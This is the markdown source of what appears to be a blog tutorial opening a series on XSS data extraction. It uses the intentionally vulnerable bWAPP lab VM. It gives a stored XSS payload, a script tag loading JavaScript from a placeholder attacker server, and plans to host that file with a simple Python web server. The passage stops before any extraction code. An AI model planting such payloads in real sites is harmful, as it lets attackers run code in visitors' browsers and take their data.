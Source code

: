 ```yaml
---
layout: post
title:  "XSS Basics: Data extraction"
date:   2022-03-20 18:05:55 +0300
image:  XSSBasic/title.jpg
author-name: strik1r
tags:   [XSS, data extraction]
---
```


<h2>Prologue:</h2>
In this blog post series we will start to take a look at all the things we can do with xss. We will be discovering the impact an XSS vulnerability can have and this also increases your vulnerability report's value. This post will focus on data extraction.
<br>
<h3> Environment Setup </h3>
Throughout this series we will be using Bee WebAPP. The reason is that this application has so many vulnerabilities that can be used for testing. You can download and setup the VM from here: [Bee](https://www.vulnhub.com/entry/bwapp-bee-box-v16,53/)
Make sure your attacker machine and the Bee Webapp are on the same network segment.
<br>

<h2>The XSS</h2>
In our blogs we're not gonna focus on how to find XSS vulnerabilities or different XSS payloads. We will inject one simple XSS on the page that the victim would execute. The payload is intended to download a JavaScript file hosted on our attacker web server and execute it on the victim's browser.
<br>
```
<script src=http://serverIP/file.js></script>
```
![](/img/XSSBasic/inject.PNG)

We will inject this into the XSS - Stored (Blog) section.
We will also start a web server so our JavaScript files can be downloaded.
You may use any webserver you want. We will use basic python2's SimpleHTTPServer module to host our payloads.
<br>
